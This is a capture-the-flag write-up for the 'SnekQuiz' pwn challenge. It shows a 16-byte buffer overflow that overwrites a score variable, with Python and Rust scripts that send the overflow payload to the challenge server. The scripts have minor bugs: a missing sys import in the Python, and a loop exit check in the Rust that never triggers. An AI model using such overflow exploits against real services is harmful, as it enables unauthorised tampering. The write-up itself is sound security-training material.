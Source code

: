 
### SnekQuiz - [pwn] - 200pts
As with each pwning challenge, the first step is to understand how the program works, what input it takes, what output it produces, and see if there are any values that will produce unexpected output.

![](images/test_run_1.png)


Ok, so lets see what happens when we provide the correct answers to the questions.

![](images/test_run_2.png)


Great! We get some points. But we run into a bit of a problem, we need to get 5 points and we are only asked 3 questions :( oh no!!

Ok, lets try running the program one time, but with some strange values and see what we get.

![](images/run_3.png)


Ha! Thats strange, where `10` coming from?  Well it seems we have a buffer of 16 characters to work with, anything past that causes on overflow which modified the score.  So, can we write some value which will change the score to 5 and give us the flag?  Lets find out!


I wrote a quick Python script which will send our exploit string to the server.

```python
import socket
import time


# setup the socket stuff
try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except socket.error as e:
    print "[!] Failed to initiate socket\n"
    sys.exit()
else:
    print "[+] Socket successfully created\n"

    # connect to the socket
    HOST = "challenge.uiuc.tf"
    PORT = 11343
    sock.connect((HOST, PORT))



# run the exploit
while True:
    output = sock.recv(1024)
    if output == None or output == "":
        break
    else:
        sock.send("aaaaaaaaaaaaaaaa\x05")
        print output

```
</br>

And voila!
![](images/the_flag.png)


#### Side Note
I had a bit of time on my hands, so I also wrote the same exploit in `Rust` because why not.

```rust
extern crate bufstream;
use std::net::TcpStream;
use bufstream::BufStream;

// Traits
use std::io::BufRead;
use std::io::Write;


fn main() {
    if let Ok(stream) = TcpStream::connect("challenge.uiuc.tf:11343") {
        let mut buffer = BufStream::new(stream);
        loop {
            let mut output = String::new();
            if output == " " {
                break;
            } else {
                buffer.read_line(&mut output).unwrap();
                buffer.write_all(b"aaaaaaaaaaaaaaaa\x05").unwrap();
                buffer.flush().unwrap();
                print!("{}", output);
            }
        }
    } else {
        println!("[!] Unable to connect!");
    }
}
```

![](images/rust_exploit.png)
